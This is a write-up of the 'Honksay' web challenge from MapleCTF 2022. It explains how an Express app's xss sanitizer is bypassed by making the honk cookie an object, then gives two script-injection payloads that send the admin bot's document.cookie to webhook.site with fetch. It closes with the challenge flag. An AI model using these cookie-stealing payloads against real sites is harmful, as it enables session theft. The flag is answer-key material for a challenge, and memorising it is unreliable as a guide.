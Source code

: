 ```yaml
---
title: Honksay Writeup - MapleCTF 2022
layout: post
tags: web warmup
---
```


*Haha goose say funny thing*

[Download challenge](https://ctf2022.maplebacon.org/files/0565426a10b6e02a4fd2dcc6ca720ab0/honksay.tar.gz)


## Investigation

Honksay challenge presents itself with this glorious page

![honk](/assets/honksay.png)
<br>
<br>

Looking onto its code we see that website's backend has a goose script, where a puppeteer instance is created. This instance visits every page you specify in feedback field and sets flag cookie to environment variable. The only obstacle is that cookie is only visible for localhost.

```js
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

...

page = await browser.newPage();
await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: 'localhost',
      samesite: 'none'
});
await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
```

Digging in the other script reveals that website has `/changehonk` route that can set our message on the frontend.

```js
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```

Well that is nothing like stored XSS, except there is one problem : upon visiting baseurl, backend performs a little check on our honk cookie with 'xss' plugin

```js
const clean = require('xss');

...

app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
```

Turns out we can get around this check, by setting our cookie to an instance of an object, and then finalhonk will get assigned to user controlled honk cookie. 

## Solution

To set cookie type to an object via a GET request we can construct this payload:

``localhost:9988/changehonk?newhonk[message]=<script>fetch(`https://webhook.site/?${document.cookie}`);</script>``

Funny thing, I used another way to make our honk cookie an object, I discovered this by messing with initialhonk variable in my Docker instance:

``http://localhost:9988/changehonk?newhonk=j:{"message":"<script>fetch(`https://webhook.site/?${document.cookie}`);</script>","amountoftimeshonked":1337}``

Thus we get ourselves a neat flag 🚩

**maple{g00segoHONK}**

